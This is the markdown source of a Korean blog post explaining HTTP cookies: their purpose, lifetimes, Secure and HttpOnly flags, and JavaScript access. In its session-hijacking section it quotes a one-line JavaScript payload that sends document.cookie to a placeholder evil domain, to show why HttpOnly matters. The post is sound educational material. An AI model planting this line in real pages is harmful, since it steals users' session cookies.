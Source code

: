 ```yaml
---
layout: post
title: "쿠키(cookie)"
subtitle: ""
comments: true
categories : HTTP
date: 2022-07-20
background: '/img/posts/06.jpg'
---
```


# 소개
Cookie에 대해서 공부하는데 MDN을 출처로 하여 [적은 글](https://velog.io/@mokyoungg/HTTP-%EC%BF%A0%ED%82%A4Cookie){:target="_blank"}을 보게 됐습니다.
FE 관련된 공부를 할 때 항상 MDN을 참고하지만 내용이 너무 많기도 하고 번역이 어색한 부분도 있어 보기가 어려웠는데 해당 글을 보면서 많은 도움을 받았습니다.
Cookie의 개념을 잡을 수 있는 좋은 글인 것 같아 참고 하여 작성합니다.

## HTTP 쿠키란 무엇인가
서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 조각이라고 할 수 있습니다.
실제로 개발자 도구 > Application > Cookies를 보시면 Name/value로 매핑된 쿠키의 리스트를 확인 하실 수 있습니다.
브라우저는 이 데이터 조각들을 저장했다가 동일한 서버에서 재요청이 들어 오면 저장된 데이터를 함께 전송합니다.
쿠키는 요청이 동일한 브라우저에서 들어왔는지 아닌지를 판단할 때 주로 사용됩니다.
상태가 없는(statelss) HTTP 프로토콜에서 상태 정보를 기억시켜주기 때문입니다.
과거에는 클라이언트 측에 정보를 저장할 때 쿠키를 주로 사용했습니다.
지금은 modern storage APIs(localStorage/sessionStorage)를 사용해 정보를 저장하는 걸 권장합니다.(IndexedDB도 권장)
모든 요청마다 쿠키가 함께 전송되기 때문에 성능이 떨어지는 원인이 될 수도 있습니다.
하지만 쿠키는 아직도 정말 많이 사용되기 때문에 반드시 알고 있어야할 필요가 있습니다.

## 쿠키의 목적
- 세션 관리(Session management) : 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization) : 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking) : 사용자 행동을 기록하고 분석하는 용도

## 쿠키의 라이프 타임
- session 쿠키 : 현재 세션이 끝날 때 삭제된다. 브라우저는 '현재 세션'이 끝나는 시점을 정의합니다.(물론 브라우저 재시작시 세션을 복원해 세션 쿠키를 무기한 존재할 수 있도록 하는 방법도 있습니다.)
- persistent 쿠키 : Expires 속성에 명시된 날짜에 삭제되거나, Max-Age 속성에 명시된 기간 이후에 삭제된다.
```
Expires 속성의 예시
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

## Secure와 HttpOnly 쿠키
Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송됩니다.
하지만 Secure 일지라도 민감한 정보는 절대 쿠키에 저장하면 안됩니다.
본질적으로 안전하지 않고 이 값이 보안을 제공하는게 아니기 때문입니다. 쉽게 말하면 그냥 열람할 수 있는 정보입니다.
Cross-site 스크립팅(XSS) 공격을 방지하기 위해 사용되는 HttpOnly 쿠키는 Javascript의 document.cookie API에 접근할 수 없습니다.
```
Secure HttpOnly
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

## document.cookie를 사용한 자바스크립트 접근
새로운 쿠키들은 document.cookie를 사용해 만들어질 수도 있으며, HttpOnly플래그가 설정되지 않은 경우 자바스크립트로 부터 접근될 수 있습니다.
즉 HttpOnly 플래그가 없으면 자바스크립트도 쿠키를 제어할 수 있다는 의미 입니다.

## 세션 하이재킹과 XSS
쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용됩니다.
그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다.
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 쿠키 속성은 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 막을 수 있는 최소한의 장치 입니다.

 

## 참고
- [쿠키(Cookie)](https://velog.io/@mokyoungg/HTTP-%EC%BF%A0%ED%82%A4Cookie){:target="_blank"}


--- 

{% highlight ruby linenos %}
{% endhighlight %}

{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
